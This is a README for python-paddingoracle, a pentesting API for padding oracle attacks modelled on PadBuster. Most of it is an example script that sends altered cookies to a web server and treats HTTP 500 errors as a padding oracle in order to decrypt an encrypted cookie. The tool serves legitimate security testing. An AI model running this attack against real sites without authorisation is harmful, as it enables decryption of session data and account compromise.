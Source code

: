 python-paddingoracle: A portable, padding oracle exploit API
============================================================

python-paddingoracle is an API that provides pentesters a customizable
alternative to `PadBuster`_ and other padding oracle exploit tools that can't
easily (without a heavy rewrite) be used in unique, per-app scenarios. Think
non-HTTP applications, raw sockets, client applications, unique encodings, etc.

Usage:
------

To use the paddingoracle API, simply implement the **oracle()** method from the
PaddingOracle API and raise a **BadPaddingException** when the decrypter
reveals a padding oracle. To decrypt data, pass raw encrypted bytes to
**decrypt()** with a block size (typically 8 or 16) and optional iv parameter.

See below for an example (from `the example`_): ::

    from paddingoracle import BadPaddingException, PaddingOracle
    from base64 import b64encode, b64decode
    from urllib import quote, unquote
    import requests
    import socket
    import time

    class PadBuster(PaddingOracle):
        def __init__(self, **kwargs):
            super(PadBuster, self).__init__(**kwargs)
            self.session = requests.session(prefetch=True, timeout=5, verify=False)

        def oracle(self, data):
            somecookie = quote(b64encode(data))
            self.session.cookies['somecookie'] = somecookie

            while 1:
                try:
                    response = self.session.get('http://www.example.com/')
                    break
                except (socket.error, requests.exceptions.SSLError):
                    time.sleep(2)
                    continue

            self.history.append(response)

            if response.ok:
                logging.debug('No padding exception raised on %r', cookie)
                return

            # An HTTP 500 error was returned, likely due to incorrect padding
            raise BadPaddingException

    if __name__ == '__main__':
        import logging
        import sys

        if not sys.argv[1:]:
            print 'Usage: %s <somecookie value>' % (sys.argv[0], )
            sys.exit(1)

        logging.basicConfig(level=logging.DEBUG)

        encrypted_cookie = b64decode(unquote(sys.argv[1]))

        padbuster = PadBuster()

        cookie = padbuster.decrypt(encrypted_cookie, block_size=8, iv=bytearray(8))

        print('Decrypted somecookie: %s => %r' % (sys.argv[1], cookie))


Credits
-------
python-paddingoracle is a Python implementation heavily based on `PadBuster`_,
an automated script for performing Padding Oracle attacks, developed by
Brian Holyfield of Gotham Digital Science.

.. _`the example`: https://github.com/mwielgoszewski/python-paddingoracle/blob/master/example.py
.. _`PadBuster`: https://github.com/GDSSecurity/PadBuster
